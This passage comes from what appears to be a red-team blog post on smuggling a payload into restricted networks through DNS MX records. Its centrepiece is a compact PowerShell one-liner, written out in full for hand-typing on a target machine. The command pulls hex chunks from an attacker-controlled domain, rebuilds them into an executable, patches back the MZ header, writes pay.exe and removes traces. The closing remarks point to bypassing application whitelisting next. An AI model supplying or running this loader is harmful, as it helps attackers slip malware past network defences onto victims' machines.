 This last point mainly revolves around the powershell one-liner.  I wanted to try and reduce the length of the command as much as possible should one need to hand type it on a target machine.  Before factoring in the added script to replace the magic bytes, I was able to cut it down by around 30%.

These savings come from a few places:

1. Shorten variables.  $results is now $o. $num is now $a.
2. Aliases.  Select-substring becomes sls.  Set-content becomes sc.
3. Use shortened parameters when possible.  The -Allmatches parameter of select-substring can be abbreviated -a because there are no other parameters beginning with a.
4. Improve regex, loop logic, and array initialization.  Every character counts!

![image](https://user-images.githubusercontent.com/91164728/160744679-a25b5666-e105-41ce-ae04-be7f421d3ca6.png)


I'm sure there is more that could be done, but I am far from proficient in powershell.

The final, improved powershell one-liner which restores the MZ magic bytes and deletes the temporary .txt file is:

```powershell
$o="";for($a = 1; $a -le <NUMBER_OF_SUBDOMAINS>; $a ++){$b = nslookup -type=MX "$a.<YOUR_DOMAIN_HERE>" 2> $null;$c = @($null)*($b.count - 3);for($i = 3; $i -le $b.count - 1; $i++){$d = ($b[$i] | sls -patt '(?<=\=\s)((\d|\w){1,50}\.?){1,4}' -a).matches.Value;$c[$d[0]/10 - 1] = $d[1].replace(".","")};$c.foreach({$o = $o + $_})};[byte[]]$e = ($o -split '(.{2})' -ne '' -replace '^', '0X');$f = ".\a.txt";$e | sc -en byte $f;[byte[]]$g = gc $f -en byte -raw;$g[0x00] = 0x4D;$g[0x01] = 0x5A;$g | sc .\pay.exe -enc byte;ri $f
```
# Closing thoughts

Using DNS to infiltrate a payload can be an attractive option in highly restrictive environments where normal methods involving HTTP/S and or more conventional methods may not be viable.  In such an environment the next hurdle is likely to be actually executing your payload- bypassing Application Whitelisting is a topic I will likely spend some time diving into in the future.

Thank you to those who stuck with me until the end.  It was a busy few days as I explored and developed this topic and I certainly learned some things as I hope you have as well.
